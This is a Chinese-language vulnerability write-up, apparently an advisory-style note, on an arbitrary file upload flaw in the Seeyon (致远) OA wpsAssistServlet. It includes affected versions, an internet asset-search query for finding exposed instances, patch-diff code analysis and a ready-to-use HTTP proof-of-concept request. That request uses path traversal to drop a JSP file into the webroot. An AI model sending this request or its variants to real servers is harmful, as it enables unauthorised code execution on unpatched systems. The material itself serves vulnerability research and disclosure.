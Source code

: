 # 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

```
致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)
致远OA G6、G6N (V8.1、V8.1SP1)
```

## 网络测绘

```
app="致远互联-OA" && title="V8.0SP2"
```

## 漏洞复现

产品主页

![image-20220824142723820](images/202208241427877.png)

下载补丁220706-S004 ，对比修改的文件

![image-20220824142736294](images/202208241427361.png)

主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码

![image-20220824142757449](images/202208241427516.png)

![image-20220824142808032](images/202208241428101.png)

在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口

![image-20220824142821539](images/202208241428602.png)

`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```

![image-20220824142837723](images/202208241428763.png)

![image-20220824142846959](images/202208241428999.png)